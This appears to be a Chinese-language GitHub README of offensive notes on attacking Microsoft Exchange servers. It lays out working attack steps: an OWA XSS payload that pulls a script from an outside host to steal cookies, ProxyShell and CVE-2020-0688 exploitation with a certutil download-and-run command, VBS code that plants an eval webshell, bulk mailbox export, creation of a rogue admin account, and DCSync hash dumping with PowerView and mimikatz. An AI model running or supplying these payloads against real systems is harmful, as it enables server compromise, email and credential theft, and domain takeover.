


# Exchange学习

整理和自己写了一些exchange的脚本

## CheckInfo

基于exchange版本和补丁日期检测漏洞

### 版本识别

1. 通过 `owa` 接口，获取短版本信息

2. 通过 `/ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application` 接口获取完整版本信息

3. 通过 `/owa/service`, `/owa` 接口响应头 X-OWA-Version获取完整版本

4. 爆破 `/ecp/{version}/exporttool/` 最后一位，获取完整版本

### 漏洞检测
参考[这篇文章](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-Exchange%E7%89%88%E6%9C%AC%E6%8E%A2%E6%B5%8B%E5%92%8C%E6%BC%8F%E6%B4%9E%E6%A3%80%E6%B5%8B)，根据https://learn.microsoft.com/en-us/Exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019匹配版本和日期识别漏洞

新增CVE-2022-41082
## NtmlLoginEWS

checkLogin 支持明文密码和ntlm登录，参考[这篇文章](https://github.com/3gstudent/Homework-of-Python/blob/master/checkEWS.py)修改的脚本，更简洁明了

## 漏洞利用

### ProxyOracle

#### 打法

1. xss打cookie  https://192.168.52.149/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};alert(document.cookie)//

https://192.168.52.149/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.head.appendChild(document.createElement(/script/.source)).src=/https:\/\/OurXssServer.com\/index.js/.source//  利用dnslog平台打cookie


参考 https://www.4hou.com/posts/lEOM 

2. PaddingOracle 解密明文

大致原理看文章

参考 

https://hosch3n.github.io/2021/08/10/PaddingOracle%E6%94%BB%E5%87%BB%E5%8E%9F%E7%90%86/

https://paper.seebug.org/1123/

https://github.com/hosch3n/ProxyVulns

```python
# 必然存在一个guess_iv[-1]值符合
guess_iv[-1] ^ middle[-1] = 0x01
# 根据异或可逆性反推出真实中间值middle[-1]
middle[-1] = guess_iv[-1] ^ 0x01
# 得到真实中间值middle[-1]后，与原本的iv[-1]算出真实的明文plain[-1]
plain[-1] = iv[-1] ^ middle[-1]
```

cadata字段是用AES-CBC加密的"Basic " + ToBase64String(UserName + ":" + Password)

由于IV是RSA加密，但前12个字节固定，所以后4个字节无法得到，就无法得到账号前2位


### ProxyShell

#### 打法

https://github.com/ktecv2000/ProxyShell

可以直接修改204行payload 为蚁剑马 直接连接



https://github.com/dmaasland/proxyshell-poc
https://github.com/Ridter/proxyshell_payload

先生成payload，然后修改proxyshell_rce.py 314行可以写马



这个洞SSRF 访问到后端的接口，但是默认是System权限，但是 Exchange PowerShell Remoting接口是针对域用户的，所以SYSTEM权限需要鉴权到邮箱用户的权限，一般来讲默认域用户都是有Exchange PowerShell Remoting权限的，所以到这一步一般任意的域用户就可以了。 但是如过想从草稿箱中导出文件，需要用户有邮箱存在，而且需要用户在exchage mailbox import export 组中，一般的像administraotr@xxx.xx邮箱，域管直接就冲了， 但是如果没激活的话只能找导出组中的用户，或者Organization Management组中用户将任意用户加入mailbox import export 组中。 如果邮箱权限没设太死的话，其实也可以用那个exchage mailbox import export 组中的邮箱导出其他人的邮箱（说不定可以偷邮件看）。 然后New-ManagementRoleAssignment 把用户加到exchage mailbox import export 组 从用户的草稿箱把webshell导出来(还可以通过证书导出，不需要New-ManagementRoleAssignment命令)

#### 坑点

报这个"............New-ManagementRoleAssignment ........."就说明部不是Organization Management组不能执行命令，但是其实只要是mailbox import export组就好了，但是因为exp 是每次先加再导出，所以有可能还能打 报 ".....................New-MailboxExportRequest........................"就说明不是mailbox import export组里的，大概率邮件写入草稿箱但是无法导出来，这时候需要找个导出组的邮箱或者想办法加进去

### ProxyLogon

https://github.com/sirpedrotavares/Proxylogon-exploit

### CVE-2020-0688

有回显 https://github.com/zcgonvh/CVE-2020-0688

无回显 https://github.com/Yt1g3r/CVE-2020-0688_EXP

无回显写shell 
1. 先下载vbs  python .\CVE-2020-0688_EXP.py  -s https://192.168.52.149 -u "xx" -p "xxx" -c "cmd.exe /c certutil -urlcache -split -f http://vsp/1.txt C:\windows\temp\test.vbs"
2. 执行vbs python .\CVE-2020-0688_EXP.py  -s https://192.168.52.149 -u "xx" -p "xxx" -c "cmd.exe /c C:\windows\temp\test.vbs"


```vbs
Set shell = CreateObject("Shell.Application")
webshell = "<script language='JScript' runat='server'>function Page_Load(){eval(Request['cmd'],'unsafe');}</script>"
Set oShell = CreateObject( "WScript.Shell" )
path =oShell.ExpandEnvironmentStrings("%ExchangeInstallPath%")
set fs =CreateObject("Scripting.FileSystemObject")
set ts =fs.OpenTextFile(path + "FrontEnd/HttpProxy/owa/auth/test.aspx",2,True)
ts.Write webshell
ts.close
```

## exchange管理


参考链接 https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E4%BB%8EExchange%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%8A%E6%90%9C%E7%B4%A2%E5%92%8C%E5%AF%BC%E5%87%BA%E9%82%AE%E4%BB%B6


不同exchange版本管理单元名称不同

Exchange 2007: Add-PSSnapin Microsoft.Exchange.Management.PowerShell.Admin;
Exchange 2010: Add-PSSnapin Microsoft.Exchange.Management.PowerShell.E2010;
Exchange 2013 & 2016: Add-PSSnapin Microsoft.Exchange.Management.PowerShell.SnapIn;


远程管理
``` powershell
$User = "test\administrator"
$Pass = ConvertTo-SecureString -AsPlainText DomainAdmin123! -Force
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList $User,$Pass
$Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://Exchange01.test.com/PowerShell/ -Authentication Kerberos -Credential $Credential
Import-PSSession $Session -AllowClobber
```
其他命令

```powershell
Get-Mailbox 获得所有邮箱用户
Get-OrganizationalUnit 获取所有OU
New-ManagementRoleAssignment –Role "Mailbox Import Export" –User Administrator  添加用户到导出组
New-MailboxexportRequest -mailbox administrator -FilePath ("\\localhost\c$\test.pst") 导出用户邮件到exchange服务器
Get-Mailbox -OrganizationalUnit Users -Resultsize unlimited |%{New-MailboxexportRequest -mailbox $_.name -FilePath ("\\localhost\c$\test\"+($_.name)+".pst")}  导出所有邮件，保存到Exchange服务器的c:\test
powershell -c "Add-PSSnapin Microsoft.Exchange.Management.PowerShell.SnapIn;$pwd=convertto-securestring Password123 -asplaintext -force;New-Mailbox -UserPrincipalName testuser1@test.com -OrganizationalUnit test.com/Users -Alias testuser1 -Name testuser1 -DisplayName testuser1 -Password $pwd;Add-RoleGroupMember \"Organization Management\" -Member testuser1 -BypassSecurityGroupManagerCheck"  命令行下添加管理员用户
```


邮件内容搜索  https://github.com/3gstudent/Homework-of-Powershell/blob/master/UsePSSessionToSearchMailfromExchange.ps1

导出用户test1的特定邮件到exchange服务器c:\test下 https://github.com/3gstudent/Homework-of-Powershell/blob/master/DirectExportMailfromExchange.ps1


## 其他利用

### exchange特定的ACL实现域提权

拥有Exchange Trusted Subsystem或Exchange Windows Permission

导入PowerViewr 

https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

添加ACE

Add-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity win7 -Rights DCSync -Verbose

mimikatz导出hash

mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /all /csv" exit